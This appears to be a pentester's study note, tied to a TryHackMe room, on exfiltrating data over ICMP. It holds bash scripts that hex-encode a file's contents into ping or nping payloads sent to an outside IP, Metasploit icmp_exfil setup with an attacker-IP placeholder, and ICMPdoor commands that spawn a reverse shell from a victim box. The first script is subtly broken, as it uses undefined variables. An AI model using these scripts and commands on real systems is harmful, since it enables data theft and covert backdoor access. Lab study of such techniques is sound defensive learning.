 # Data Exfiltration Over ICMP

Use of the [[Internet-Control-Messaging-Protocol]]'s Data section and sending it via `ICMP` to exfiltration target location outside the network.

A simple bash script, but remember to start packet capture before running!
```bash
#!/bin/bash

if [ "$#" -ne 1 ]; then
        echo "Usage: $0 <file path> <IP address>"
        exit
fi

data=$(cat $filepath)
for line in $data; do
	foricmp=$(echo $line | xxd -p)
	ping $ip -c 1 -p $foricmp
done
```

## Metasploit

[[Metasploit]] can perform ICMP data exfiltration with the `auxilirary/server/icmp_exfil` module

```ruby
msfX > use auxiliary/server/icmp_exfil
# Set the BPF_FILTER option
# This based on TCPDUMP rules - capture only packet from Data host
set BPF_FILTER icmp and not src <attacker-ip>
set INTERFACE # to some interface recieve the data
```
On Data host, `nping` is default ICMP transmitter
```bash
#!/bin/bash

if [ "$#" -ne 1 ]; then
        echo "Usage: $0 <file path> <IP address>"
        exit
fi

data=$(cat $1)
sudo nping --icmp -c 1 $2 --data-string "BOFfile.txt"
for line in $data; do
        sudo nping --icmp -c 1 $2 --data-string "$line"
done
sudo nping --icmp -c 1 $2 --data-string "EOFfile.txt"
exit
```

It acommplishes this by capturing the incoming ICMP packets and wait for Beginning of File trigger value then writes to disk until it recieves a End of File trigger value.


## C2 ICMP Exfiltration


[ICMPdoor](https://github.com/krabelize/icmpdoor) is *"ICMP Reverse Shell written in Python 3 and with Scapy (backdoor/rev shell)"*. Similarly to the previous methods the C2 utilizes the Data section within the ICMP packet to exfiltrate data.

```bash
# Victim Box:
sudo icmpdoor -i <interface> -d <destination-ip> &
# Destination Box:
sudo icmp-cnc -i <interface> -d <victim-ip>
# This spawns a shell
```


## References

[THM Data Exfiltration](https://tryhackme.com/room/dataxexfilt)